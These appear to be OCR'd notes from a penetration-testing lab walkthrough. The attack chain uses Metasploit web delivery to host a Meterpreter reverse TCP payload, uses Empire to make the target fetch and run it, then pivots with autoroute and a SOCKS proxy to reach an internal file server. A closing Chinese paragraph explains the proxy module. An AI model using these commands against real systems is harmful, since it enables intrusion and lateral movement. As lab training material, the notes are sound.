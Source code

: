 Shell No. 4

```
set SRVHOST 10.10.22.3
set LHOST 10.10.22.3
set payload windows/meterpreter/reverse_tcp
exploit
```

It's going to give us a URL where that particular payload is hosted. Copy that link.

Going into our Empire session.

Shell No. 3

```
usemodule powershell/code_execution/invoke_metasploitpayload
set URL
execute
```

Shell No. 4

```
sessions
```

We get a meterpreter session on demo.ine.local.

We can use some port forwarding automation modules.

```
sessions 1
sysinfo
getuid
```

Put this session in the background.

```
search autoroute
use 0
set SESSION 1
run
```

We can perform port forwarding for port 80 that's running on the fileServer.ine.local onto our Kali Linux system.

```
use auxiliary/server/socks_proxy
```

[SOCKS Proxy Server](https://www.rapid7.com/db/modules/auxiliary/server/socks_proxy/)

This module provides a SOCKS proxy server that uses the builtin Metasploit routing to relay connections.

We can access that web server within our own browser.

Metasploit的SOCKS Proxy Server是一个内置的代理服务器模块，允许你通过Metasploit会话来路由网络流量。这个功能尤其对于进行渗透测试和网络安全研究非常有用，因为它可以帮助你掩盖真实IP地址，通过受控的系统转发流量，从而安全地访问目标网络中的资源。
